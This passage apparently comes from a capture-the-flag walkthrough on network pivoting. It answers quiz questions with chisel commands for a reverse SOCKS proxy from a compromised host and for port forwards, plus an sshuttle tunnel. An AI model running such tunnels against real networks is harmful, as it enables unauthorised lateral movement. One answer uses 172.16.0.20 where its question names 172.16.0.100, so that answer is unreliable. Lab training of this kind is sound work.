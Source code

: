 **2) What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?**

Formatting:

```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

Answer:

```
./chisel client 172.16.0.200:4242 R:socks &
```

**3) How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.**

Formatting:

```
./chisel client FORWARDIP:FORWARDPORT R:OWNPORT:OWNIP:LISTENINGPORT &
```

Answer:

```
./chisel client 172.16.0.20:3306 R:33060:172.16.0.200:1337 &
```

**4) If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?**

Formatting:

```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Answer:

```
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
```

## Task 15: [Pivoting] [sshuttle](https://github.com/sshuttle/sshuttle)

Read about sshuttle.

**1) How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16**

Formatting:

```
sshuttle -r username@address subnet
```

Answer:

```
sshuttle -r pwned@172.16.20.7 172.16.0.0/16
```
